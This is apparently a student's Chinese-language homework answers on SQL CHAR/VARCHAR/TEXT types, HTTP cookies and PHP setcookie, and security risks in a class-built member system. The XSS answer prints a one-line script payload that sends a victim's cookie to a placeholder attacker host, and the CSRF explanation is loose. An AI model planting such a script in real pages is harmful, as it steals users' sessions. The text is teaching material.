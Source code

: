 ## 資料庫欄位型態 VARCHAR 跟 TEXT 的差別是什麼
1.char的長度固定，每個字節都會佔用空間，適合在身分證號碼跟手機號碼。
2.varchar可以設定最大長度，字節長度最大到65535，
3.text不可以設定長度，如果不知道最大長度，可以使用text

查詢速度快到慢：char>varchar>text


## Cookie 是什麼？在 HTTP 這一層要怎麼設定 Cookie，瀏覽器又是怎麼把 Cookie 帶去 Server 的？
http的協議本身是無記憶狀態的（stateless），因此無論是client端或者web伺服器端，每個網頁的每次request都是單獨的請求，因此可以藉由cookie 來讓用戶的各項操作產生連結。

cookie是指伺服器產生一個紀錄檔放在電腦上，讓不同request 產生關聯，再下次的request，伺服器可以先檢查有沒有上次留下的cookie資料，若是有cookie 檔案，可以根據cookie來判斷使用者，傳送特定網頁。
php可以使用setcookie這個function來設定cookie的key與value

## 我們本週實作的會員系統，你能夠想到什麼潛在的問題嗎？

1. XSS:
攻擊者得知網站A存在漏洞，在相應網頁植入惡意的script代碼。
`<script>window.open(www.xxx.com?cookie =xxx)</script> 
`
惡意代碼被執行，並將收集到的敏感信息（如cookie）發送到攻擊者伺服器。


若是沒有在伺服器那邊多寫一層認證，則會直接送出至伺服器。

2. CSRF
跨請求偽造，
刻意的導向到其他網址，例如這禮拜的作業：
 在留言輸入框的action可以更改URL網址，使得使用者送出後轉向其他網址！

